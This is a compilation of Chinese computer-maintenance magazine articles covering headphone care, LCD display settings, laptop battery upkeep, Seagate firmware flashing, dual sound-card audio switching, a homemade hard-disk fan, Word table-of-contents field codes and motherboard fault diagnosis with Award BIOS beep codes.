耳塞线和插头的连接处是耳机上的一个比较脆弱的部位，许多耳机会因为此处的损坏而不能够继续使用，那么，怎样的处理才会使耳机的寿命更长呢？耳塞线和插头的连接处的里面是焊点，这样在拔耳机的过程中如果用力过猛或过大就很容易造成焊点脱落，耳机也就报废了（见图2）。

所以，在使用新耳机前最好先把耳塞线和插头的连接处用橡胶固定一下，在拔掉耳机的时候也要有正确的方法，先是用手捏住插头，再轻轻地拔出，坚决杜绝在拔的过程中用力过大或者是速度过快，因为那样会很容易使焊点脱落，耳机不能再继续使用。

### 3.线缆的保养

耳机的导线也是耳机保养中非常重要的一个部分；因为不管耳机的制作技术多么的先进，耳机的导线始终是金属制成的。既然是金属材料就有其自身的弱点，那就是易断裂。针对金属导线的这一弱点，虽说已经做出了很大的努力，但是依然没有彻底克服掉。

所以，在耳机的使用过程中要注意不要让耳机的导线对折，应该尽量地保证导线有一定的弧度。而且在收耳机的时候也要注意不要使耳机导线出现硬角，这样会大大损害到导线的寿命，很可能造成断路，也不要随意地缠到输出设备上，应该在收的过程中保持着一定的弧度，这样您就不用为耳机的导线出问题而大伤脑筋了（见图3）。

### 4.导线外部的保养

在使用中如果导线的外部受到损伤，将会直接影响到导线的使用寿命。耳机导线外部的材料有很多种，颜色也有很多种，但是大多数导线的外部材料都是橡胶。在耳机的日常使用中，很多朋友会发现这样一个问题，那就是使用的时间长了导线就会自然变硬，这样就很容易折断，也是件很伤脑筋的事。

怎样能够解决这一问题呢？这就需要我们平时对耳机的细心呵护。在耳机的使用或是保存中要尽量避免和油性或是酸性物质的接触，一旦接触就要立即用干毛巾擦干。另外，汗水也是耳机导线外部的一大杀手，汗水的碱性比较大，碱性同样会对橡胶造成严重的损害，所以在接触汗水后也要立即擦干。在耳机的使用过程中，还要尽量避免导线外部与利器或是坚硬的东西接触。

### 5.振膜的保养

耳机振膜在耳机的构成中可以说是相当重要了，它是耳机的心脏部位，它的保养相当关键，只有耳机的振膜没有受到损害，耳机才能够正常的工作(见图4)。

新耳机的振膜由于没有使用过所以弹性比较差，刚性比较强，所以在使用新耳机的时候，要慢慢调整音量，不宜过大，因为音量过大会使得耳机振膜的震动幅度过大，造成耳机损坏，也不要过快或大幅度地变换音量，这都会对耳机振膜产生不利的影响（见图5）。

所以，在使用新的耳机时，建议先用正常的音量听一到两个月，在这过程中尽量避免听比较劲爆的音乐，等耳机过了磨合期，便可以更好地使用了，这是新耳机使用的一个很稳妥的方法。而且，要避免耳机与潮湿的环境接触，否则将会使得振膜变形，影响正常使用。

### 6.海绵耳塞作用大

通常在购买新耳机时，耳机的包装盒里会有一对海绵的耳塞。这东西虽小，但作用却很大。

首先，戴上它可以减少连续听音乐的不适感，可以大大缓解耳朵的疲劳；其次，它可以弥补有些耳机振膜缺乏弹性和力度的不足，使耳朵和耳机的封闭性更好，使音质更好，声音更加醇厚；最后，它还可以有效地保护好耳机，使耳机不进灰尘，即使长期使用，声音的效果也会一直如新。看来，给您心爱的耳机加上一个海绵的耳塞，是非常必要的事情，它可以为您更好地保护您的耳机，让您更好地享受音乐给您带来的无尽快乐。

### 7.温度和湿度

在耳机的日常保养中，耳机所处环境的温度和湿度也很重要。通常在高温或是湿度很高的环境中耳机的振膜会发生严重的变形，这样就会大大地影响耳机的音质。另外，耳机的插头的镀金属层也是非常脆弱的，在潮湿的环境中容易生锈，一旦生锈就会对耳机的效果产生很严重的影响，甚至造成接触不良乃至损坏。所以，在耳机的使用过程中要尽量避免强光、潮湿等环境，这样就可以避免振膜的变形和导线的损坏。

### 8.耳机的专用性

耳机通常有很多种类，有许多耳机是不可以通用的，这一点在耳机的使用过程中是值得注意的。有许多耳机是专用的，如果把专用的耳机用错了地方，那就会产生很严重的后果，如果将一个低功率的耳机连接到一个频率非常高的输出设备上就会造成耳机的损坏。记住，专用的耳机要用在适合的设备上才能发挥出它的作用，否则将会适得其反。

耳机使用及保养存在的误区

也许，在日常的使用中，很多人也很想好好地保养一下自己心爱的耳机，但是由于经验不足或是对这方面的了解不多，所以在耳机的使用和保养中往往容易陷入误区，这样不但没有起到保护耳机的效果，而且会在很大程度上对耳机造成致命的伤害。下面，我就为大家来披露一下存在的几个误区，希望对大家在今后的耳机保养中有所帮助。

### 误区之一：煲耳机时使用大音量

有人认为，新的耳机需要使用大音量煲，这样可以使耳机又快又好地进入正常的工作状态，而且还节省了时间。这样的做法其实是犯了耳机使用的一个大忌，因为通常情况下，新的耳机的振膜刚性太强，大音量的煲会使振动的频率超出新振膜的承受能力，造成振膜损坏。在煲的时候应该使用适中的音量，使用一段时间就可以随意地调试了。

### 误区之二：听耳机的时候音量过大

长时间的大音量听音乐会对人的听力产生非常不利的影响，渐渐地会造成听力的严重下降，给耳朵带来长久的损害，长时间的大音量也会使人的精神过度亢奋，会造成身心疲劳、精神疲惫（见图6）。

而且大音量对耳机振膜的影响也非常大，长时间使用大音量，会造成音效失真，甚至造成振膜破损。所以，在听音乐的时候要选择适中的音量，既不能太小，影响音乐的美，也不能太大，伤害到自己的耳朵。适中的音量也会延长耳机的使用寿命，是最好的保养方法之一。

想让您心爱的耳机的使用寿命更长，您就要掌握科学的使用方法和保养方法，还要走出使用和保养的误区。耳机也是件很娇贵的物品，需要我们好好地呵护它。相信在您的精心呵护下，您的耳机一定会寿命更长久，给您带来更多的美的享受！

调养你的显示器——让字体更清晰

文/TMG zzx

随着液晶显示器技术的成熟，无论从技术还是价位上，LCD的普及已经成为现状。然而，在我们满心欢喜地使用新买回家的液晶显示器时，使用过程中出现的字体发虚现象总是在不停地困扰着我们。如何改善这种状况，使液晶显示器达到最佳工作状态？这个问题几乎已经是迫在眉睫了。今天小编就带大家去探索LCD的调养秘籍，为您找出问题的解决之道。

### 选择适合的最佳分辨率

目前市场上的液晶显示器尺寸有很多种，对于尺寸不同的液晶显示器，它们的最佳分辨率也不尽相同。如果大家不区分显示器的尺寸而全部采用“一视同仁”的分辨率，那将不能形成点对点的传输，您显示器上的字体不是被拉伸就是被压缩，就会产生字体发虚的现象，从而影响正常工作。下面就对主流液晶显示器尺寸及最佳的分辨率列表如下：

| 尺寸规格 | 最佳分辨率 |
|---|---|
| 15英寸 | 1024×768 |
| 17英寸 | 1280×1024 |
| 17英寸宽屏 | 1366×768 |
| 19英寸 | 1280×1024 |
| 19英寸宽屏 | 1440×900 |
| 20英寸 | 1600×1200 |
| 20英寸宽屏 | 1680×1050 |
| 23英寸宽屏 | 2048×1152 |
| 24英寸宽屏 | 1920×1080 (16:9) |
| | 1920×1200 (16:10) |

### 巧用AUTO自动调节键

由于目前液晶显示器绝大多数都没有DVI接口（或不配DVI连接线），大家基本上都在使用D-Sub接口和数据连接线。但是，我们在使用D-Sub线连接时，常常会出现这样的情况：提前预设最佳分辨率，但效果甚微，文字依然模糊。这是由于模拟信号在模/数转换的过程中会产生信号衰减，最终导致字符的虚影。我们在这里提醒您：您需要按下液晶显示器的“AUTO”键，LCD将自动重新校正几何参数，以保证您获得更清晰的视觉效果。

> > **小提示**
>
> 如果使用DVI线进行连接，用户只需调整最佳分辨率，无需使用“AUTO”键，系统将自动为您调节到最佳状态。

### 动手设置刷新率

一般情况下，我们保证刷新率在75Hz以上。另外，还要注意的是：刷新频率的大小一定要参考显示器的说明进行相应的设置。如果设置的刷新率远大于您显示器所支持的大小，显示器将会黑屏。分辨率越高，最高刷新频率越低（见图）。

### 调整显示器菜单

显示器OSD菜单包括：亮度、对比度、图形、大小以及水波纹等。正确调整菜单中的相关项，有助于我们获得最佳的视觉效果。

-   1. **色温模式**
    人眼对于颜色的判定受背景光源的影响，所以对显示器色温进行调整相当重要。在OSD主菜单中“颜色管理”项有9300K、6500K、5500K三种常见色温模式供我们选择，一般将色温设定在6500K，对于图像质量要求较高的影像美工色温定在5000K。
-   2. **画面显示效果**
    如果显示器显示区域不完整，我们进入到“画面调整”中通过调节“Picture(图形)”和“Geometry(几何)”两项目就可解决该问题。其中“Picture(图形)”区域包括调整显示器影像的水平、垂直位置，以及显示器所显示影像水平、垂直的显示区域大小；在“Geometry(几何)”区域主要调整显示器在显示时所产生的几何失真的情形。
-   3. **水波纹效果调节**
    现在很多显示器都具有水波纹调节功能，显示器水波纹会随图案形状、显示器大小、对比、亮度而有所不同。使用者遇到有类似水波纹的状况时，进入“水平波纹”选项，按实际情况进行参数调节，直到显示器画面显示正常为止。

### 点缺陷

液晶显示器的“点缺陷”（包含坏点或暗点、亮点）也会影响屏幕的清晰度，但这从液晶诞生至今就一直存在。所谓LCD的点缺陷就是液晶显示屏中某个像素损坏，出现一个持续发亮、不亮或单色亮、不接受熄灭信号的死像素。

为避免在使用中点缺陷的增多，首先应该避免用硬物触摸或碰撞液晶屏，其次避免使用或搬运过程的震动，另外不使用LCD时应养成好习惯随手关机。

除此以外，液晶显示器自身的质量问题，也会影响用户正常使用显示器。部分厂商的IC驱动的电路设计欠完善、做工较粗糙以及电路元件老化问题等，都将导致画面出现不清晰、模糊、虚的现象。这时，您需要联系售后服务中心进行检修。

到这里，我们对于液晶显示器清晰度调节问题可以告一段落了，按照上面的几个步骤，相信您一定可以将自己的液晶显示器调整到一个最佳状态了。

动力之源——笔记本电池使用注意事项

本本的便携性优势离不开作为动力之源的电池，借助电池我们才可以移动使用笔记本电脑，在任何场所办公或娱乐。而作为损耗品的电池，充放电次数是有限的，使用寿命是一定的，从某种角度来说，自我开始使用它，其寿命就不断缩短。但是，我们不是只能被动的任其走向“死亡”，完全可以在使用过程中多加注意，一方面随时监控电池的健康情况，另一方面注重电池的保养，有效延长电池的使用时间，让这个本本的动力之源，永葆青春活力。

### 了解你的本本电池

大多数人在购买笔记本之后，很少会花时间去关注电池的状况，直到电池的使用时间明显缩短才猛然惊觉电池的健康状况受到威胁，这时候才后悔就为时已晚。如果我们能够一早就掌控本本电池的性能和状态，就可以在其出现问题之前很好地预防。这里给大家介绍一款软件，不仅可以显示电池的健康状态，还可以检测电池的性能——Battery Eater Pro 2.70，最主要的是它的体积很小，仅有713KB，你都可以基本忽略它的存在。推荐下载地址：http://www.newhua.comsoft28009.htm（汉化补丁：http://www.newhua.comsoft32392.htm）。更值得一提的是，Battery Eater Pro 2.70使用起来非常方便，根本不需要安装，下载结束后进行解压缩，双击“BEPro.exe”运行该软件，即可进入该软件的主界面(见图1)。

然后我们就可以对你本本的电池进行健康检查了。

-   1. 第一步：检查电池是否满格（可以通过软件主界面中间的数据信息判断），如果满格则可开始检测，否则充电至满格开始检测。然后，取消本本的自动关闭屏幕和硬盘的设置，同时在后台运行软件（主要是为了防止笔记本电脑空转）。
-   2. 第二步：选中“切断交流电便开始测试”选项。
-   3. 第三步：将交流电源接口拔掉。

这样笔记本开始完全由电池供电，进入电池检测状态，同时将会弹出一个测试窗口，窗口中间有一个不停旋转的电池。这时候我们要做的就是耐心地等待笔记本电池的电量被消耗完。当提示电量不足时，将Battery Eater Pro 2.70主界面所显示的测试时间和可持续时间记录下来，就可以知道一般情况下所使用的笔记本在电池供电的状态下可以持续运作的时间，也就是经常所说的电池的续航时间。我们也可以选择其他模式进行测试，了解不同运行状态下电池的使用时间。这样我们就可以全面了解本本电池的性能，也可以和其出厂性能进行对比，从而了解其健康状况。

另外，我们也可以单击“信息”按钮，在弹出窗口中选择“电源供给”（包括“基本”和“高级”两个信息项），可以查看电池信息，包括电池名称、厂商、序列号、唯一标识和其他相关信息。

别小看Battery Eater Pro 2.70这款不起眼的小软件，使用方便，可以帮助你随时掌控本本电池的状态，不知不觉帮了你大忙（见图2）。

### 日常使用误区

除了不要忽视作为动力之源的笔记本电池，要经常检测本本电池的状态和性能，我们在日常使用中其实还有很多误区需要避免，这些小小的误区往往很容易导致电池寿命的缩短。

#### 电池需要充满（放光）保存

这种观点是不正确的，但是还是有不少使用者持有这种观点，前两年还有针对于此的热烈“讨论”，可见有不少人陷入此误区中。针对于此，有专家指出：如果放光电量长期保存会令电芯失去活性，严重时甚至导致控制电路保护自锁而无法再使用。而充满电长期保存会带来安全的隐患（如高温着火）。因此，我们在保存电池的时候，最好让电量维持在40%左右，然后存放在阴凉干燥的地方。

#### 电池需要定期校正

简单来说，由于笔记本电脑的电池存在控制电路，长时间的使用会使控制电路的记录与电池的真实容量之间存在偏差，如此就需要对其进行校正，具体方法是当发现偏差存在后对电池进行一次深度充放电操作，让控制电路刷新记录，使之接近电池的实际情况。但是，值得指出的是，并不是说校正就会使电池的容量增加，而是将真实容量呈现出来，消除电池和控制电路之间的偏差。因此，如果电池真实容量比控制电路中的记录容量高，校正可令电池容量增加，反之则会使容量减少。另外，还需要注意的是有时候深度充放电会对电池，特别是锂电池的电路造成损伤，所以并不益于经常进行深度放电的校正。

对于过去使用的记忆效应很强的镍氢电池，定期校正成为必然。如今很多本本都采用的是锂电池，其记忆效应大大减弱，而频繁深度充放电对电池的损伤不言而喻，所以这种电池的定期校正需要“量力而行”，小心“过犹不及”。

#### 外接电源还接电池

很多用户嫌拆卸电池比较麻烦，经常在使用外接电源的时候不将电池卸下来。这时候就有很多人大声疾呼“在笔记本电脑电池已经充满电的情况下，不应再外接电源使用笔记本电脑”。这主要是因为笔记本电脑在装载电池的时候，并不一定是使用交流电，很有可能使用的是电池里的电，使电池处于反复充电的状态，从而造成电池寿命减少。

但在实际使用过程中，我们发现并不是所有的本本都会面临上面的问题。很多笔记本厂商考虑到上述情况的存在，在产品中加入电池保护技术，不同品牌技术不同，如：IBM的笔记本电脑能够检测电池放电情况，只会在电池电量低于95%的时候才会自动进行充电。所以像这样的电池，我们在使用的时候就不需要拔下来了。

但是，还是建议你如果长时间使用外接电源则最好将电池卸下来，一来你不知道你的本本是否有相应的电池保护技术，二来长时间过热环境对电池的保存毕竟有不好的影响。

#### 关机不断电，本本床上放

高温情况下电池是很容易过热而起火的。本本开机使用的时候，主人也许会比较注意使用的温度，但一旦关机，笔记本电脑的放置就被人忽视了，不把电池卸载或让电池处于充电状态就将其放置在床铺等毛纺用品上的情况时有发生。别看这是一件小事，要知道这时候处于高温状态的电池是一个很大的安全隐患，如遇长时间阳光直射，很容易就会引发电池过热的起火事件。所以在使用完笔记本电脑后要养成随手断电的好习惯，彻底消除安全隐患。

### 对你的电池好点

除了要避免使用误区外，其实更为重要的是日常的存放和使用习惯，养成良好的电池使用习惯，对于我们来说是极其重要的一件事。作为辛苦的笔记本电脑动力之源，我们的确应该花点功夫对它好一点！

#### 注意电池的使用和存放

别看电池看似一个四四方方结结实实的“铁”疙瘩，但实际上电池对于使用和存放条件要求是很高的，特别害怕潮湿和高温。

首先，最为重要的是温度问题。电池不能置于高于60° C的环境中，很容易引起起火事件，更不能接触明火，否则会爆炸；不可以置于太低的温度中，否则容量会大大减少，建议存放在20° C左右的环境中。特别需要注意的是，要避免接受阳光直射，或接触高温物体。

其次，还要注意防潮。长时间的潮湿环境容易使电池的电流腐坏或发生短路，很危险。特别是不可用湿布擦拭电池金属部分。

除了上述的温度和湿度环境外，在使用的过程中，我们要养成尽量将电量全部用完后再一次将电量充满的习惯，这样可以使电池处于最佳状态。如果不使用了，最好将电池拔下单独存放。存放电池的时候最好使电池处于40%电量状态。

#### 定期为电池做健康检查

我们在使用和存放电池时固然需要注意，但定期为电池做检查也是很必要的，前面第一部分我们就推荐了一款笔记本电脑电池检测软件及其使用方法，相信会对大家检测电池提供很好的帮助。在这里我们就不详细介绍了。但需要提醒大家的是，不要忽略电池检测的重要性，它可以让你及时掌握电池的健康情况，一方面可以作出是否进行校正的判断，同时也可以对存在问题的电池进行及时的更换，避免发生问题时的措手不及。

#### 定制你的电源管理模式

我们还可以定制电源管理模式，既节约了电量，又延长了电池使用时间。很多笔记本电脑的标准设置是非常耗电的 “HomeOffice Desk” 或 “Always On” 模式，通过电源管理模式可以更改。具体操作如下：

-   **第一步：**单击 “开始” 菜单，选择 “设置” 中的 “控制面板”，双击打开 “电源选择”。
-   **第二步：**选择 “Portable/Laptop” 模式。
-   **第三步：**单击 “确定” 按钮进行应用。

同时，我们还可以根据需要对其他电源选项进行设置。比如，频繁的开关机其实并不省电，相反更加费电，对于那些频繁离开座位但中间间隔较短的使用者可以延长电脑休眠时间。

另外，在我们对笔记本电脑和电源管理模式比较熟悉了之后，还可以再根据你的工作方式对设置进行定制。

笔记本电脑的电池虽然本身是一个损耗品，不可避免随着使用时间的增长而性能下降，但如果我们平时在使用上多加注意，就会有效延缓这个速度，从而延长电池的寿命。对于我们这些使用者来说，平时小小的注意，带来大大的收益，何乐而不为呢？

## 刷新希捷硬盘固件 破解“固件门”

文/TMG

希捷的“固件门”事件，让许多使用希捷硬盘的朋友的电脑出现了硬盘故障。具体表现为开机后无故失去响应，导致系统卡死数十秒，随后又自动恢复；还有便是硬盘正常工作一段时间之后，会出现蓝屏、死机状况，当用户重启计算机后，硬盘将完全锁定，无法检测到硬盘。不过希捷已经给出了通过刷新硬盘固件解决该问题的方法，下面就介绍一下刷新硬盘固件的方法。

#### 准备工作

在刷新固件之前，首先要使用希捷官方提供的“Drive detect检测工具”，通过该软件检测你的硬盘型号和固件版本号，下载地址：http://drivers.mydrivers.com/drivers/252-101146-Seagate-Drive-Detect-1.0.0.1-For-Win2000-XP-Vista/

启动Drive detect，Drive Name就是硬盘型号，Serial Number是硬盘序列号，Revision是固件版本号，Attached表示是否连接起来。如图所示硬盘型号为“ST3500820AS”，然后找出对应的固件下载(见图1)。



根据硬盘型号，到希捷的官方网站下载相应的硬盘固件ISO文件。

希捷酷鱼7200.11系列固件
- 希捷 7200.11 160G:
ST3160813AS 固件ISO镜像下载:
http://support.seagate.com/firmware/Brinks-1D1H-SD2B.ISO
- 希捷 7200.11 320G:
ST3320613AS、ST3320813AS 固件ISO镜像下载:
http://support.seagate.com/firmware/Brinks-1D2H-SD2B.ISO
- 希捷 7200.11 500G:
ST3500320AS、ST3500620AS、ST3500820AS 固件ISO镜像下载:
ftp://file9.mydrivers.com/storage/seagate_st3500320as_620_820_fwSD1A-2D.zip
- 希捷 7200.11 640G:
ST3640323AS、ST3640623AS 固件ISO镜像下载:
http://support.seagate.com/firmware/Brinks-2D4H-SD1B.ISO
- 希捷 7200.11 750G/1T:
ST3750330AS、ST3750630AS、ST31000340AS 固件ISO镜像下载:
http://support.seagate.com/firmware/MooseDT-SD1A-3D4D-16-32MB.ISO
- 希捷 7200.11 1T:
ST31000333AS 固件ISO镜像下载:
http://support.seagate.com/firmware/Brinks-3D6H-SD1B.ISO
- 希捷 7200.11 1.5T:
ST31500341AS 固件ISO镜像下载:
http://support.seagate.com/firmware/Brinks-4D8H-SD1B.ISO

希捷酷鱼 ES.2 SATA系列:
ST3250310NS、ST3500320NS、ST3750330NS、ST31000340NS
需要查看硬盘标签上的P/N序列号，然后进入下面的地址，找到对应的固件进行升级，如当前硬盘固件版本为SN06或SN16，则不需要升级。
http://seagate.custkb.com/seagate/crm/selfservice/search.jsp?DocId=207963&NewLang=en

### 制作刷新固件的引导光盘

在刷新硬盘固件之前，首先需要将刚才下载的ISO文件刻录成引导光盘，这里以nero8刻录软件为例。

- 第一步：装好nero8后双击打开界面，单击界面上端的“刻录和翻录”，单击窗口右侧的“刻录数据”选项。
- 第二步：单击窗口左侧的“映像、项目、复制”选项，在右侧的窗口中找到刚才下载的ISO文件（见图2）。



- 第三步：进入“最终刻录设置”窗口，单击“刻录”，开始进行刻录。

### 设置光盘引导系统

要使用刚才刻录好的光盘引导计算机，就必须在主板BIOS中设置光盘启动。启动计算机，按“DEL”键进入主板BIOS设置，选择“Advanced BIOS Features”，将“First Boot Device”选项设置改为“CDROM”（见图3）。



### 点点鼠标切换音箱耳机

喜欢夜间用电脑的用户，为了不影响其他人的睡眠，经常会将音箱、耳机之间的音频接口相互切换，使音箱和耳机都有用武之地。其实，尽管目前的机箱前置音频接口，但是经常相互切换音箱、耳机的接口还是太麻烦了，如果可以只点点鼠标就能切换音箱、耳机的使用，无疑是大大方便了日常的使用。

目前，切换音箱耳机的方法有很多，例如自制或另外购买一个切换器，不过这种方法比较复杂，不太适合一般的用户。然而，如果用户有双声卡（例如一张独立声卡加主板集成声卡，现在的主板大多都集成了声卡，如果没有独立声卡，则可以到二手市场买，一个普通的声卡只要10元左右），那么实现音箱、耳机的切换就可以很简单了。下面以集成声卡的主板为例进行说明。

首先，将独立声卡安装在主板上，然后进入BIOS设置界面，依次选择“Integrated Peripherals”→“OnChip Device Function”→“AC97 Audio Device”，将“AC97 Audio Device”一项设置为“Disabled”（见图1），屏蔽主板中的集成声卡（不同的主板BIOS设置会有所不同，具体可参考自己的主板说明书）。然后，进入Windows XP操作系统，安装独立声卡的驱动程序（一般旧声卡的驱动程序，Windows XP系统都会自带有）。安装了声卡的驱动程序后，重新启动电脑，进入BIOS设置程序，将“AC97 Audio Device”一项设置为“Enabled”或“Auto”，打开原先屏蔽了的集成声卡（这样做的目的是为了之前能够顺利安装独立声卡的驱动程序）。



设置会有所不同，具体可参考自己的主板说明书）。然后，进入Windows XP操作系统，安装独立声卡的驱动程序（一般旧声卡的驱动程序，Windows XP系统都会自带有）。安装了声卡的驱动程序后，重新启动电脑，进入BIOS设置程序，将“AC97 Audio Device”一项设置为“Enabled”或“Auto”，打开原先屏蔽了的集成声卡（这样做的目的是为了之前能够顺利安装独立声卡的驱动程序）。

接着，进入到Windows XP系统，右击“我的电脑”，然后依次点选“属性”→“硬件”→“设备管理器”，查看里面的硬件驱动程序有没有冲突的现象，如果有可以双击出现问题的项目，从弹出的属性窗口中，尝试更改其中断号等设置（或更换独立声卡），避免双声卡之间发生冲突。如果硬件之间没有问题，再将音箱的接口和耳机的接口分别接入主板集成的声卡和独立的声卡中（见图2）。



最后，从“开始菜单”中依次点选“设置”→“控制面板”→“声音和音频设备”→“音频”。这时点选“音频”标签页“声音播放”一栏中的“默认设备”一项，可以发现有2个音频设备，它们分别代表主板集成声卡和独立声卡的两个声卡的音频程序，这样以后只要在这里切换声音播放的音频程序，就可以轻松实现音箱和耳机之间的切换了。此外，由于这种方法使用了双声卡，因此还可以实现在播放的同时进行录音等功能。

### 刷新硬盘固件

- 第一步：将刚才制作的引导光盘放入光驱，启动计算机，进入光盘引导DOS系统的第一个画面，具体内容就是刷新固件的说明，选择“F10”退出即可（见图4）。
- 第二步：进入硬盘刷新界面，可以看到A、B、C三个选项，为该固件对应的硬盘型号，选择自己刷新硬盘的型号，这里硬盘型号为ST3500820AS；所以选择“C”。如果不知道你的硬盘型号，可以选择“S”，进行硬盘扫描（见图5）。
- 第三步：在Selection：后面打入“C”后，系统开始进行刷新操作，此时切勿断电。待固件升级完毕后，会有提示出现。需要注意的是，当刷新结束时不能按“Ctrl+Alt+Del”重启电脑，而是按照按下任意键继续的提示随意按一下键盘，电脑会自动关机，等待10来秒再开机，完成整个固件刷写过程。





### 双声输出共享单音箱小技

最近购买了一块内置电视卡，用于在电脑上收看电视。然而，自从在电脑上安装了电视卡之后，由于电视卡和声卡的音频输出各不相同，如果想收听电脑里面的MP3等影音程序的播放，就需要将音箱连接到电脑的声卡音频输出接口（Line-out），当需要收看电视时，则又要将音箱转接到电视卡的音频输出接口，经常在两者之间相互切换很麻烦。

后来，想到在声卡中有一个音频输入接口，设想是否可以将电视卡的音频输出接到声卡的音频接入中，让声卡的音频输出同时负责电脑和电视的音频输出。想到这里，立即购买了一条两头连接的音频线（如图，这些音频线在市场上只要2元左右），并将音频线的一端接到电视卡的音频输出接口，然后



将另一端接到声卡的音频输入接口（Line-in），音箱则连接到声卡的音频输出接口。最后启动电脑，播放MP3、收看电视，都收听到声音！换言之，这个方法果然可行。这样一来就不用再在声卡和电视卡之间，相互切换音箱的连接了。

这种方法看似很简单，但是试用过之后感觉很实用，而且这种方法不但适用于电视卡和声卡的共享，也适合声卡和声卡等的双声输出共享单音箱的用途。有遇到像笔者这样需要双声输出共享单音箱应用的朋友，不妨试用这种方法进行解决。

### 硬盘风扇自己做

现在硬盘的转速越来越快，但随之而来产生的热量也越来越大，因此为硬盘采取散热措施也就更加重要了。可是事实上，大多数的用户都不注意硬盘的散热，往往只将其安装在机箱里即罢，毫无散热措施可言。

其实，只要我们将CPU风扇与硬盘往一起想，为硬盘安装散热设备就一点也不难了。具体可将CPU风扇放在硬盘的上面，然后利用主板上剩余的CPU风扇电源插座（或剩余的主芯片风扇插座，有一些主板有2个甚至3个这样的插座，不熟悉的用户可请教相关朋友或查看主板说明书），将CPU风扇的电源在主板相应的插座里连接上（如果风扇的电源线不够长，可剪断并添加同类电线以延长）。这么一点儿的操作，即可为硬盘安装专用风扇，解决其散热问题。

但是，如果在主板上没有这样相应的插座，就需要直接利用电源供电了。而随着闪存盘的出现，现在使用软驱的用户越来越少，这么一来软驱供电即可转为给硬盘CPU风扇了。具体需要准备两条等长的铜线或铁丝，并将铜线的前后

两端削去适当长度的绝缘塑胶，或在铁丝的中间部分用绝缘胶布包住，在关机的状态下分别插入CPU风扇电源接口的两端，然后将铁丝的另外两端分别接到电源软驱接口的黄色线和红色线的两端。其中CPU风扇红色线应接软驱的黄色线，CPU风扇黑色线一端则接到软驱的红色线一端，其连接的对应端口必须正确，否则CPU风扇会因接不到电源而不能转动（具体可反复尝试，但操作必须正确，否则可能会引起短路），因此不熟悉的用户应该请懂这方面的朋友或专业人士帮忙。

经过上面的操作之后，硬盘风扇即可完成了。然而，这里需要注意两点，一是风扇的震动可能会对硬盘造成影响，因此在给硬盘设置专用风扇时，应该注意将风扇固定；二是使用电源直接供电的方法，具有一定的危险性，无论是对于人体还是电脑部件都可能产生严重影响，因此必须操作正确。如果用户觉得上面的操作还是比较麻烦，也可只将CPU的散热片放置在硬盘的上面，其操作容易又没有危险性，而且可能有不少用户因升级CPU，也闲置着CPU的散热片，这么一来即可让其有用武之地了。

### 自由控制目录页码的显示方式

文/王志军


在插入目录时，不管其中存在多少级别，每一级别下都会自动插入相应的页码，但很多时候可能并不需要显示某一级的页码，但即使打开“目录”对话框，这里也无法针对每一级设置是否显示页码。不过，我们可以换一种思路来解决这一问题，具体步骤如下：

例如某个文档希望其中的二级目录不显示页码，那么可以将光标放在目录的最前面，右击选择“切换域代码”，可以得到类似于“{ TOC \o "1-3" \h \z \u }”的域代码，可以看出这是一个三级目录，将其修改为“{ TOC \o "1-2" \h \z \u \n 2-2}”，这里的“\n”表示不显示页码，“2-2”表示第二级目录不显示页码，右击选择“更新域”，随后会弹出一个“更新目录”的提示框，请在这里选择“只更新整个目录”，很快就可以看到需要的效果。

需要指出的是，如果这里的“\n 2-2”只写成“\n 2”的话，更新时会显示“错误！标题级别范围无效”的错误信息；如果希望一级目录不显示页码，可以修改为“{ TOC \o "1-3" \h \z \u \n 1-1}”，其他的可以此类推，感兴趣的朋友可以一试。

## 手把手——常见主板故障巧排除

文/天唯创造

主板是负责连接电脑其他配件的主要桥梁，它的工作的稳定性直接影响到了电脑是否能够正常的运行。它是一块集成程度相当高的电路板，十分的复杂，所以出现一些故障也是在所难免的。主板出现部件损坏后，故障现象一般表现为系统无法启动、屏幕无显示等等。下面我们就来看看几种常见的主板损坏性故障的解决办法。

### 主板电池损坏导致无法正常启动

**故障描述**：一台计算机进入操作系统后，发现“任务栏”右下角的系统时间不正确，重新调节时间，重新启动计算机后，系统时间仍然不准确；此外，以前在主板BIOS设置的光驱引导系统，最近也失灵了，重新进入主板BIOS中进行设置光驱引导系统，但是重新启动计算机后，依然无法使用。

**故障分析**：一旦计算机在启动时或开机后出现系统时间错误和主板BIOS 的设置不能保存等现象，那么这种问题的原因应该就是主板BIOS的电池电压不足或电池损坏造成的，解决这个问题的方法就是更换主板BIOS电池（见图1）。



**实践为先**：拔掉主机箱电源，打开主机箱盖，找到主板BIOS电池，用螺丝刀撬起电池，更换新的电池。

连接主机箱电源，重新启动计算机，按“DEL”键进入主板BIOS设置（见图2）。



进入“Standard CMOS Features”菜单（见图3）。



按“F10”保存退出主板BIOS设置，重新启动计算机，一般问题可以解决。

**专家论道**：主板电池虽然是一个很小的元件，但是它却起到了很大的作用，它给CMOS提供了不间断电源，能够使其保存住用户对它的设置。一旦电池出现问题，就会出现无法正常启动的现象。当然这种情况大多出现在使用年限比较长的机器上。一般新机器出现的几率比较小。

### 为BIOS放电解决黑屏故障

**故障描述**：一台计算机的主板采用Award BIOS，集成显卡，一直使用正常，最近朋友来了一次，好像调节了什么BIOS选项，然后再次启动计算机后，显示器无响应，出现黑屏现象，PC喇叭发出“一长两短”的警报声。

**故障分析**：采用Award BIOS的主板，PC喇叭发出“一长两短”的警报声，问题应该出现在显示器或显卡上。

> **小提示**
目前市面上的主板采用的BIOS程序一般分为三类：AWARD BIOS、PHOENIX BIOS、AMI BIOS。三种BIOS程序的功能基本上相同，但是设置方法等细节问题存在差异。

你知道“故障提示”是怎么知道问题是由于显示器或显卡造成的吗？呵呵，没错，就是通过PC喇叭发出“一长两短”的警报声，主板BIOS一般都附带这项功能，用于在计算机硬件出现问题时，辅助用户准确判断故障所在，只不过由于BIOS的生产厂商不同，其BIOS响铃的意义也不同。

#### AWARD BIOS响铃声含义

| 铃声 | 含义解析 |
| --- | --- |
| 一短 | 系统正常启动。这是我们每天都能听到的，也表明机器没有任何问题。 |
| 二短 | 常规错误，请进入CMOS Setup，重新设置不正确的选项。 |
| 一长一短 | RAM或主板出错。换一条内存试试，若还是不行，只好更换主板。 |
| 一长二短 | 显示器或显示卡错误。 |
| 一长三短 | 键盘控制器错误。检查主板。 |
| 一长九短 | 主板Flash RAM或EPROM错误，BIOS损坏。换块Flash RAM试试。 |
| 不断地响（长声） | 内存条未插紧或损坏。重插内存条，若还是不行，只有更换一条内存。 |
| 不停地响 | 电源、显示器未和显示卡连接好。检查一下所有的插头。 |
| 重复短响 | 电源问题。 |
| 无声音无显示 | 电源问题。 |



